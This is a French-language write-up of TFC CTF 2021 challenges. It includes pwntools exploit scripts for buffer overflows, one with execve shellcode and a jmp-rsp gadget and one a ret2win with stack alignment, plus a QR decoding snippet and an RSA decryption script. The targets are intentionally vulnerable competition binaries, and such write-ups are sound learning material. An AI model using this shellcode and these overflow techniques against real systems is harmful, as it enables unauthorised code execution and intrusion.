




# TFC CTF 2021 Writeup

Cet article présente des corrigés des défis du TFC CTF 2021.
<!--more-->

## Jumpy [Pwn]

Pièce jointe:[here](/datas/jumpy)

Sortie de checksec

```sh
$ checksec jumpy
```


Le NX est désactivé donc nous pouvons exécuter sur la pile.


Code C de Jumpy obtenu par l'ingénierie inverse avec ghidra.


Dans le binaire, il n'y a pas de fonction system ni aucune fonction pour lire le drapeau. Comme le stack est exécutable, nous pouvons pushé du shellcode là-dessus et l'exécuter.

Premièrement, nous avons besoin de contrôler le RIP.

J'ai placé un breakpoint sur le ret de la fonction main.

Avec 0x38 nous pouvons atteindre le RIP.

Pour un test, j'envoie cette charge: "A"*0x38 + "BBBB"


Le RIP est bien atteint.

Nous pouvons maintenant exécuter notre shellcode sur la pile.

payload = "A"*0x38 + RSP_addr + shellcode

Nous allons pushé le shellcode sur le RSP et appelé l'adresse de RSP dans le RIP pour pourvoir exécuter le shellcode.

Nous n'avons pas l'adresse de RSP mais en faisant un pétit recherche dans le binaire nous avons une instruction qui fait un jump sur le RSP, çà fera l'affaire.



Avec l'adresse de cette instruction dans le RIP, nous pouvons faire un saut dans le RSP et exécuter ce qui est à l'intérieur.


payload = "A"*0x38 + p64(0x00401142) + shellcode

Exploit:

```python
from pwn import *

sh = process("./jumpy")
#sh = remote("34.65.228.239",1337)
shellcode = b"\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
payload = b"A"*0x38 + p64(0x00401142) + shellcode

print(sh.recv().decode())
sh.sendline(payload)
sh.interactive()
```
Result:


## Secret [Pwn]

Pièce jointe:[here](datas/secret)


```python
from pwn import *

sh = process("./secret")
print(sh.recv().decode())
sh.sendline(p32(0xaabbccdd)*2)
print(sh.recvall().decode())
```
Result:


## Santa [Pwn]

Pièce jointe:[here](datas/santa)

Sortie de checksec

```sh
$ checksec santa
```


Le NX est activé, nous ne pouvons donc rien exécuter sur la pile, mais hors de la pile.

Dans ce cas, nous allons cibler le RSP.

Exécutons le binaire.


Code C de Santa obtenu par l'ingénierie inverse avec ghidra.


J'ai trouvé une fonction flag.


Ici, on aura à provoquer un buffer overflow et exécuter le code de la fonction flag mais pas sur la stack.

Pour atteindre le RSP: "A" * 0x38 + "BBBBBBBB"

On voit bien que le RSP est atteint.

Nous pouvons maintenant écrire notre exploit pour exécuter la fonction flag.

Adresse de fonction flag : 0x00401152

Vous pouvez le trouver dans gdb avec la commande :
```sh
info functions
```


Exploit:

```python
from pwn import *

#sh = remote("server.challenge.ctf.thefewchosen.com",1340)
sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.recv().decode())
```
Result:


Mais il y a un souci.

Lorsque je l'ai utilisé sur le serveur distant, cela n'a pas fonctionné.

```
[*] Got EOF while reading in interactive
```
##### Movaps stack alignment

Si vous faites une erreur de segmentation sur une instruction movaps dans buffered_vfprintf() ou do_system() dans les défis x86_64, assurez-vous que la pile est alignée sur 16 octets avant de revenir aux fonctions GLIBC telles que printf() ou system().[En savoir plus...](https://ropemporium.com/guide.html)

La solution consiste à appeler le ret d'une autre adresse une fois de plus avant d'appeler la fonction flag() lors de la conception de la pile de débordement, afin que l'adresse rsp puisse être réduite de 8.

J'ai utilisé l'adresse de retour de init.
Pour le trouver: objdump santa -M intel --disassemble=_init


New exploit:


```python
from pwn import *

sh = remote("server.challenge.ctf.thefewchosen.com",1340)
#sh = process("./santa")
payload = b"A"*(0x38) + p64(0x00401016) + p64(0x00401152)

print(sh.recv().decode())
sh.sendline(payload)
print(sh.interactive())
```


## Weid friend [Misc]

Pièce jointe:[here](datas/weird_friend.txt)

J'ai utilisé: [strong-qr-decoder](https://github.com/waidotto/strong-qr-decoder)
```python
c = open("weird_friend.txt").read().strip()
	flag,out = ('','')
	for i in c:
		flag += i
		if len(flag) == 29:
			out += flag+"\n"
			flag=""

	open("qr.txt","w").write(out)
```

Result:


## Am i doing it right? [Crypto]

Pièce jointe::[here](datas/AM_I_DOING_IT_RIGHT.zip)

Tout d'abord, je voulais utiliser RSACTFTOOL pour trouver D mais cela n'a pas fonctionné.



Je récupère donc le N et le E avec RSACTFTOOL.


J'ai utilisé quelques outils pour récupérer les p, q et d mais ça ne marche pas jusqu'à ce que j'essaye RSa-Cipher sur [Dcode](https://www.dcode.fr/rsa-cipher)




Et bingo, j'ai le p, le q et le d.

J'ai donc écrit un script Python pour déchiffrer le fichier chall.enc

```Python
from Crypto.Util.number import long_to_bytes,bytes_to_long

c = open("chall.enc","rb").read()
c = bytes_to_long(c)

n = 17729028558979019485846420034614601781855286885772116033115998289130663218793249135103097941406615594783564487056148202535602218241261076180277862184340050681277512936764254998557657989633659561175844653871375735119626199870178796372816549333367076487655787617921785826120525919291798195591267544750350222858119219959311035913906885739352404726672836723117136379411134589884489391116922923390687958161705756705708668649262568471831705504852664779788943978721769038284989250803324876493071615384204553854811020877754034576798208169454695001947778015807032019651748938505463608871771494765303144219873993106068807291321

e = 65537

d = 3500250248327349941672136790330322298173940781772211260089535710561387481696840724462501857940708289682233561164220235784490548878094466708830359320737536288891004163888989356033042963942046798938832323366063912548832619743354798758989171488234685790832327326369684099122228433857463369589017055427083655546629869448560863558252541573729181294198925126252806108158471450212498376272391643662951937867203907881541852521739527440641096867158947718038717211827677824862115138300242300421747601306316869658769565879739394458142873158790249493313154357342610957929927393333582078957693189916431285660748179207993771566093

m = pow(c,d,n)

print(long_to_bytes(m))
```

Result:



